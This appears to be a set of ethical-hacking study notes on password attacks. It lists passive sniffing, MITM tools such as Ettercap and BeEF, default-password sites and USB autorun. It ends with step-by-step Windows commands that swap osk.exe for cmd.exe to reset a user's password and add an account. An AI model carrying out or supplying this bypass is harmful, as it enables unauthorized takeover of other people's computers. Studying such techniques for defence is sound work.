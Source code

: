 # Passive Online Attacks - Passive online attacks are performed without interfering with the target

- Wire Sniffing - In Wire Sniffing, Attacker Sniff network Traffic and try to extract sensitive Information like Telnet, FTP, SMTP credentials.
- Man-in-the-Middle (MITM) Attack - The attacker involves himself into the communication, insert himself in.
   MITM Attacks:
  - xerosploit --> Ettercap --> Bettercap
  - Browser Exploitation Framework (BeEF-XSS) - older version on browser  ---> XSS Protection

# Default Password - Default Password are Set by Developer or Manufacturer. Attacker Try those password to gain Access

- <https://cirt.net/>
- <https://default-password.info/>
- <http://www.passwordsdatabase.com/>

# Password Guessing - The attacker uses the information extracted by initial phases and guess the password

# USB Drive - Attacker plug in an USB Drive that contain a password hacking tool. Windows Autorun feature allows running the application automatically, if enabled

# Password Cracking Techniques for Windows Devices
  - Create a windows/linux Bootalbe pendrive.
  - Access CMD with Shift+F10 in Windows Bootable or Access Terminal in Linux
  - For Windows type below commands:-:
    --> diskpart                                // Access Disk Partition menu
    --> list volume                             // List Partitions and Partition letter for Connected Storage Drives
    --> exit                                    // Exit Diskpart. Not CMD
    --> C:                                      // Access Local Drive C:
    --> dir                                     // List all files and folder in "local drive C:" if Windows,Program Files Folder are there in Local drive C: its good otherwise try local drive D: or E: or F: .................
    --> cd Windows                              // Browse for Windows Folder
    --> cd System32                             // Browse for System32 Folder
    --> ren osk.exe osk1.exe                    // Rename osk.exe to osk1.exe
    --> copy cmd.exe to osk.exe                 // Create a copy of CMD.EXE with a name OSK.EXE
    /////    Exit     /////      Reboot      /////    Access On Screen Keyboard through Accessibility Shortcuts
    --> net user                                // Display Users Available on System
    --> net user Babu_Bhai *                    // Change Password for user "Babu_Bhai". Here astric (*) is used to change password
    --> net user Abcd /add                      // Create a user with the naem Abcd
